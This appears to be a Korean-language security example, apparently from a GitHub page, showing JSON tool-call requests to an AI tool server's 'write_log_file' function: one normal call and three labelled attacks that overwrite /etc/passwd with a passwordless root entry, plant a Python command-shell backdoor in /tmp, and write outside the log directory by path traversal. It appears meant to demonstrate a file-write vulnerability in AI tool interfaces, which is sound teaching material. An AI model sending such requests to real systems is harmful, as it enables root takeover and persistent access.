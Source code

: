#### ✅ 정상적인 사용
```json
{
  "method": "tools/call",
  "params": {
    "name": "write_log_file",
    "arguments": {
      "filename": "application.log",
      "content": "User login successful"
    }
  }
}
```

#### 🚨 공격 예제 1: 시스템 파일 덮어쓰기 시도
```json
{
  "method": "tools/call",
  "params": {
    "name": "write_log_file",
    "arguments": {
      "filename": "/etc/passwd",
      "content": "root::0:0:root:/root:/bin/bash"
    }
  }
}
```

#### 🚨 공격 예제 2: 백도어 스크립트 생성
```json
{
  "method": "tools/call",
  "params": {
    "name": "write_log_file",
    "arguments": {
      "filename": "/tmp/backdoor.py",
      "content": "import os\nimport subprocess\nwhile True:\n    cmd = input('shell> ')\n    os.system(cmd)"
    }
  }
}
```

#### 🚨 공격 예제 3: 상위 디렉토리에 파일 생성
```json
{
  "method": "tools/call",
  "params": {
    "name": "write_log_file",
    "arguments": {
      "filename": "../../../tmp/malicious.txt",
      "content": "This file was created by an attacker!"
    }
  }
}
```
